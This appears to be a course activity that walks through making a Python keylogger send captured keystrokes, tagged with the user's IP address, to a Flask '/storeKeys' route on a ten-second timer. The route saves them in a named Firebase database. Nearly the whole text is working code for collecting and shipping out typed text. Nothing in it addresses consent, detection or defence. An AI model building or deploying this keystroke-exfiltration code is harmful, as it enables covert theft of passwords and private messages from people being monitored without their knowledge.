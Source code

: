 Store the Key Values
======================
In this activity, you will code to store the text generated by the keylogger in the database.


<img src= "https://s3.amazonaws.com/media-p.slid.es/uploads/2071954/images/10989230/Slide_9.gif" width = "100%" height = "50%">




Follow the given steps to complete this activity.




1. Send the keylogger data to the server on `storeKeys` route.
   * Open the file `main.py`.
   * Define global variable `time_interval` and assign it time interval in seconds after which the keylogger data will be sent to the server.
    ```
    time_interval = 10
    ```
2. Define `sendPostReq()` function that sends data to the server
   * Define `sendPostReq()` function and access global `text` variable.    
    ```
    def sendPostReq():
        global text
    ```
    * Add a`try` block where data will be sent to the server.
    * Use a boilerplate function `get_ip_address()` to get the IP address of the user.
    ```
        try:
            ip_address = get_ip_address()
            print("Computer IP Address is:" + (ip_address))
    ```
    * Replace '.' with '-' in the IP address so that it can be converted to JSON without any problem.
    ```    
            ip_address = ip_address.replace(".", "-")
    ```
    * Create `data` as a dict that stores `text` variable at key `ip_address` then convert the `data` to JSON to create the `payload`.
    ```
            data = {ip_address: text}
            payload = json.dumps(data)
    ```
    * Create a POST request to the address. **http://localhost:port/storeKeys**
    ```
            r = requests.post(f"http://{localhost}:{port_number}/storeKeys",
                            data=payload, headers={"Content-Type": "application/json"})
    ```
    * Set up a timer function to run every `time_interval` specified in seconds. `sendPostReq` is a recursive function, and will call itself as long as the program is running.
    ```
            timer = threading.Timer(time_interval, sendPostReq)
            timer.start()
    ```
    * Print error message in the except block.
    ```
        except:
            print("Couldn't complete request!")
    ```
3. Call `sendPostReq()` function inside the key event listener to start sending the data.


```
sendPostReq()
```


4. Create the path `'/storeKeys'` at the server that stores data in the database.
   * Open `app.py` file
   * Replace database Url and credentials in the boilerplate code.
    ```
    def firebaseInitialization():
        cred = credentials.Certificate("config/serviceAccountKey.json")
        firebase_admin.initialize_app(
        cred, {'databaseURL': 'https://keylogger-7820c-default-rtdb.firebaseio.com'})
        print("🔥🔥🔥🔥🔥 Firebase Connected! 🔥🔥🔥🔥🔥")


    ```
   * Create a route `'/storeKeys'` to save the JSON data in the database
     * Create a route `'/storeKeys'` and read JSON data from the request.
 
        ```
        @app.route('/storeKeys', methods=["POST"])
        def storeKeys():
            keyValues = request.get_json()
        ```
     * Check if `/keyboardData` is in the database if not then create and add the data.
        ```
            ref = db.reference("/keyboardData").get()
            if (ref):
                    ref = db.reference("/keyboardData")
                    ref.update(keyValues)
            else:
                ref = db.reference("/")
                ref.set({"keyboardData": keyValues})
        ```
     * Return `True` as response to show that data is successfully updated.
        ```
            return jsonify(True)
        ```


Save and run the code to check the output.
